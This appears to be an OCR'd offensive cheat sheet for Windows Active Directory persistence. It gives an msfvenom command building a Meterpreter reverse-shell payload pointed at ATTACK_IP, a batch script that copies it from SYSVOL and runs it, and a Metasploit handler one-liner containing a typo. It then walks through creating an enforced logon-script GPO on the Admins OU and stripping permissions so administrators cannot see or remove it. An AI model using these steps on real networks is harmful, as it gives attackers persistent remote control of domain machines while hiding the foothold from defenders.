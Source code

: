 # PREPARATION

#### 1) msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ATTACK_IP lport=PORT -f exe > shell.exe

#### 2) Create batch script (script.bat)

#### copy \\DOMAIN\sysvol\DOMAIN\scripts\shell.exe c:/tmp/shell.exe && timeout /t 20 && c:/tmp/shell.exe

#### 3) Copy both scripts with SCP to sysvol directory

#### 4) msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreyter/reverse_tcp; set LHOST ATTACK_IP; set LPORT PORT; exploit"

# GPO CREATION

#### 1) In our runas-spawned terminal, type mmc

#### 2) File-> Add/Remove Snap-in

#### 3) Group Policy Management snap-in, then Add

#### 4) OK

#### 5) Write a GPO that can apply to anyone you wish

# WRITING GPOs

#### 1) Right-click on the Admins OU and select Create a GPO in this domain and link it here. Give any name.

#### 2) Right-click on your policy and select enforced (Ensure that the policy will apply REGARDLESS)

#### 3) Under User Configuration, expand Policies -> Windows Settings 

#### 4) Scripts (Logon/Logoff)

#### 5) Right-click in Logon -> Properties

#### 6) Scripts tab

#### 7) Add -> Browse

#### 8) Navigate to Batch file as the script and click open and ok

#### 9) Apply and OK

#### 10) Run (multi/handler)

# HIDE IN PLAIN SIGHT

#### 1) mmc, policy, delegation

#### 2) right-click on ENTERPRISE DCs and select edit settings, delete, modify security

#### 3) Click ALLL other groups (except Authenticated Users) and click remove

#### 4) click on Advanced and remove the Created Owner from permissions

#### 5) Click Add

#### 6) Type Domain Computers, click Check Names and then OK

#### 7) Select Read Permissions and click OK

#### 8) Click on Authenticated users and click remove
